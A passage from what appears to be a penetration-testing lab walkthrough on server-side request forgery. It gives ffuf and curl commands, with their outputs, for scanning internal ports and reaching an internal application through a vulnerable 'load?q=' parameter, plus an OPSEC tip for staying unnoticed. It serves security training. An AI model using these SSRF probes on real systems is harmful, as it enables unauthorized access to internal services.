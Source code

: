 ```
Date: Tue, 19 Oct 2021 11:36:25 GMT

[Errno 111] Connection refused
```
#### 3. Use ffuf with the wordlist and discard the responses which have the size we previously identified.
```Shell
ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30
```
==OPSEC: To maintain better OPSEC, look to probe individual ports based on what is likely to be running on an internal web server==
#### 4. Use cURL to interact with port 5000
```Shell
curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"
```
Output: 
```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 64
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 17 Oct 2023 16:41:33 GMT

<html><body><h1>Hey!</h1><a>Some internal app!</a></body></html>
```
### Target `internal.app.local`
#### Issue cURL request to test redirection w/ SSRF to `internal.app.local`
```Shell
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"
```
Output:
```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 83
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 13:51:15 GMT

<html>
<body>
<h1>Internal Web Application</h1>
<a>Hello World!</a>
</body>
</html>
```
#### Test ports with cURL
```Shell
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"
```
Output:
```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 97
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 14:52:32 GMT

<html><body><h1>Resource: http127.0.0.1:1</h1><a>unknown url type: http127.0.0.1</a></body></html>
```
We have received an `unknown url type` error message. It seems the web application is removing `:// `from our request.
#### Modify to test port again